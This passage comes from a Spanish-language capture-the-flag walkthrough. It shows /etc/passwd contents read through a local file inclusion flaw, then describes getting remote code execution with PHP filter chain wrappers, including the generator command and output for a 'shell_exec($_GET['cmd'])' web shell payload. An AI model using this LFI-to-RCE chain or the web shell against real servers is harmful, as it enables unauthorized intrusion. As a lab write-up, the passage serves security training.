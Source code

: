 ```
mysql:x:101:102:MariaDB Server,,,:/nonexistent:/bin/false
redghost:x:1002:1002:redghost,,,:/home/redghost:/bin/bash
```

Vemos que esta funcionando, por lo que vamos a probar a utilizar `wrappers` en `PHP` para ejecutar comandos de forma remota (`RCE`).

## Escalate user www-data

### LFI / RFI usando wrappers

Vamos a utilizar una herramienta de `GitHub` que nos automatiza el proceso de codificar el `payload` que vamos a injectar en la `URL`.

URL = https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit/blob/main/filters\_chain\_oracle\_exploit.py

Vamos a crear un parametro llamado `cmd` que ejecute cualquier comando que le pongamos, tendremos que ejecutarlo de esta forma:

```shell
python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

Info:

```
[+] The following gadget chain will generate the following code : <?php echo shell_exec($_GET["cmd"]);?> (base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
```
